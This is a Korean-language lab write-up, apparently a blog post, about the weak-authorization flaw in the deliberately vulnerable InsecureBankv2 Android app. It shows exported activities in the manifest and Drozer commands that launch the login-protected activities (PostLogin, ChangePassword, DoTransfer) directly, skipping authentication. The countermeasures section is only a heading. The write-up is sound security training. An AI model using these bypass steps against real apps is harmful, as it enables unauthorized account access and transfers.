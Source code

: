 ```yaml
---
layout: single
title: Weak Authorization mechanism
categories: Android
tag: [android, mobile, drozer,insecurebankv2, app, application, Weak Authorization mechanism]
toc: true
author_profile: false
---
```


# Weak Authorization mechanism 이란?

> 직역하면 취약한 인증 메커니즘으로, 각각의 기능들에 대한 정상적인 인증 절차를 우회하여 비정상적인 방법으로 접근 권한을 취득할 수 있는 취약점이다. 즉, 모바일 앱의 백엔드 서버에 서비스 요청을 제출하여, 인증을 위조, 우회하여 모바일 앱과의 직접적인 상호 작용을 우회하게 된다.

💡 **<u><span style="background-color: yellow; ">해당 취약점 실습은 "InsecureBank2"라는 모바일 뱅킹서비스 어플리케이션으로 진행합니다.</span></u>** 
{: .notice--primary}

이러한 취약한 인증은 다양한 부분에서 발생할 수 있으며, 대표적으로 아래와 같다.
<br><br>
1. 적절하지 않은 Application Permition 설정 여부
2. 서비스 권한 상승에 대한 적절한 통제 미흡
3. 기능에 대한 제한 및 우회 금지 여부
4. 불필요하거나 사용하지 않는 액티비티 제거 여부
5. 인텐트 사용에 대한 안전성 여부
6. 마스터 키 취약점 대응 여부
<br>
<br>

## 취약점 분석

```xml
<activity
    android:name=".ChangePassword"
    android:exported="true"
    android:label="@string/title_activity_change_password" >
</activity>

<activity
    android:name=".ViewStatement"
    android:exported="true"
    android:label="@string/title_activity_view_statement" >
</activity>
```

해당 코드는 진단 대상 어플리케이션인 InsecureBank 앱의 AndroidManifest.xml 파일의 activaty요소를 정의하는 부분이다.
<br><br>
이처럼 몇몇 액티비티 요소들을 보게되면 android:exported가 "true" 로 설정되어 있다. 이는 액티비티가 외부 앱에서 접근이 가능하다는 것을 나타낸다.

### Drozer을 이용한 실습

![그림 1-1](image.png)
- 위와 같이 Drozer을 통해서 외부에서 접근 가능한 액티비티들을 보여준다.

```
run app.activity.start --component com.android.insecurebankv2 com.android.insecurebankv2.PostLogin
```
![그림 1-3](image-1.png)

```
run app.activity.start --component com.android.insecurebankv2 com.android.insecurebankv2.ChangePassword
```

![그림 1-4](image-2.png)

```
run app.activity.start --component com.android.insecurebankv2 com.android.insecurebankv2.DoTransfer
```

![그림 1-5](image-3.png)

<br>
<hr>
위와 같이 별도의 인증절차 없이 각각의 액티비티에 접근할 수 있게 된다.

# 대응방안